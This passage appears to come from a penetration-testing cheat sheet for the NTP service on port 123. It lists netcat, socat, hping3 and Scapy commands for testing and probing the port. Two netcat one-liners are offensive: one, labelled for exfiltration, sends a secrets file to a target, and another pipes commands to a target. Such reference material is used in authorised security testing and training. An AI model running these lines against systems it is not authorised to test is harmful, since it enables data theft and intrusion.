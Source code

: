 #### \[\[NetCat]]

*   **Netcat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 123
    ```
*   **Netcat UDP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 123 -u
    ```
*   **Execute Commands:** Execute commands on target.

    ```bash
    echo "<command>" | nc <target_ip> 123
    ```
*   **Exfiltrate Data:** Exfiltrate data over specified port.

    ```bash
    nc <target_ip> 123 < secret_data.txt
    ```

#### \[\[SoCat Cheat Sheet]]

*   **Socat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    socat - TCP:<target_ip>:123
    ```

#### \[\[HPing3 Cheat Sheet]]

*   **Send UDP Packet:** Send a single UDP packet to the service.

    ```bash
    hping3 -2 <target_ip> -p 123 -c 1
    ```

#### \[\[Scapy]]

*   **Custom Code:** Custom packet crafting to interact with or exploit NTP services.

    ```python
    from scapy.all import *
    packet = IP(dst="<ntp_server_ip>")/UDP(dport=123)/NTP()
    response = sr1(packet)
    print(response.show())
    ```

## Penetration Testing Techniques

### External Reconnaissance

#### Port Scanning
